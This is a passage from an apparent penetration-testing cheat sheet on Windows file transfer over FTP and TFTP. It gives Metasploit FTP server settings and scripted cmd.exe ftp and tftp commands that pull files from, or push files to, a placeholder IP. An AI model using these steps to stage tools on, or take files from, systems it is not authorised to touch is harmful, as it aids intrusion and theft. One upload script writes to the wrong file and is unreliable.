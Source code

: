 	set FTPROOT <path_to_ftp_dir>
	exploit 
	```
- **Client** commands in `cmd.exe`
	- to **download** a file
	```cmd
	echo open <IP> > ftp_get.txt
	echo user <username> <pass> >> ftp_get.txt
	echo binary >> ftp_get.txt
	echo GET <filename> >> ftp_get.txt
	echo bye >> ftp_get.txt
	```
	```cmd
	ftp -s:ftp_get.txt
	```
	- to **upload** a file
	```cmd
	echo open <IP> > ftp_put.txt
	echo user <username> >> ftp_put.txt
	echo binary >> ftp_get.txt
	echo PUT <filename> >> ftp_put.txt
	echo bye >> ftp_put.txt
	```
	```cmd
	ftp -s:ftp_put.txt
	```
	- to **download** a file if server is setup with _Method 2_ via python lib
	```cmd
	echo open <IP> > ftp_get.txt
	echo user anonymous >> ftp_get.txt
	echo AAA >> ftp_get.txt
	echo binary >> ftp_get.txt
	echo get <filename> >> ftp_get.txt
	echo bye >> ftp_get.txt
	```
	```cmd
	ftp -v -n -s:ftp_get.txt
	```


-------------------------------

## tftp (Trivial File Transfer Protocol)

- about tool and protocol
	- default server port - 69
	- TFTP is not included by default on newer versions of Windows. If you want to, you can actually enable TFTP from the command line:
		- `pkgmgr /iu:"TFTP"`
- **Server** setup
	```bash
	apt install atftpd
	mkdir -p /home/tftp
	atftpd --daemon --port 69 /home/tftp
	```
- **Client** commands in `cmd.exe` o 
	- to upload a file (change `ip_address`,`<filename>`)
	```cmd
	tftp -i <ip_address> put <filename>
	```
	- to download a file (change `ip_address`,`<filename>`)
	```cmd
	tftp -i <ip_address> get <filename>
	```
